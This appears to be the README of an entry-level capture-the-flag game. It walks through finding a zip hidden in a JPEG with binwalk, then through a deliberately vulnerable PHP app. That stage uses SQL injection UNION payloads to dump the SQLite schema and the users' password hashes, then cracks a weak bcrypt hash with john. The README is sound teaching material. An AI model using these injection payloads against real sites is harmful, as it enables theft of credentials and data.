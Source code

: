 # What's this?

Just an entry level CTF-like game where contestants have to toy around some stegano, baby SQLi and basic password cracking.

## www
Vulnerable php application.

## Images
* test.jpg : original presentation image
* qr-code.png : file to hide
* archive.zip : zipped qr-code.png
* coffee.jpg : concatenated test.jpg + archive.zip

## Walkthrough
The contestants are only presented with the coffee.jpg. They gotta find the hidden content. They might guess they have to unzip it; but there's a way to know. Just pass the image to binwalk and he'll tell you.

```
filedesless@AirBook:~/src/CoffeeCTF/image$ binwalk coffee.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
5353049       0x51AE59        Zip archive data, at least v2.0 to extract, compressed size: 285870, uncompressed size: 339907, name: qr-code.png
5639069       0x560B9D        End of Zip archive
```

Now they can simply unzip the file, follow the qr-code (check out zbar for this) and get on the vulnerable app. First step here is to detect the database engine used.
There's a search form clearly waiting to be exploited right on the landing page.

* `' union select 1,2, @@version;-- ` doesn't help.
* `' union select 1,2, sqlite_version();-- ` shows it's running SQLite3
* `' union select 1, name, sql from sqlite_master;-- ` shows a delightful users table.
* `' union select 1, username, password from users;-- ` gives away the password hashes.

As hinted in the page, those are BCrypt hashes. It would take forever to crack one of these if it weren't that the password is stupidly weak. Now is the time to load the hashes in a text file and pass it to john which should crack it fairly quickly using the default wordlist. Ex:

```
filedesless@AirBook:~$ john hash.txt 
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 0.19% 2/3 (ETA: 13:30:54) 0g/s 36.09p/s 36.09c/s 36.09C/s purple..rebecca
passwd           (?)
1g 0:00:01:10 DONE 2/3 (2017-11-26 12:30) 0.01425g/s 36.05p/s 36.05c/s 36.05C/s passwd..phish
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```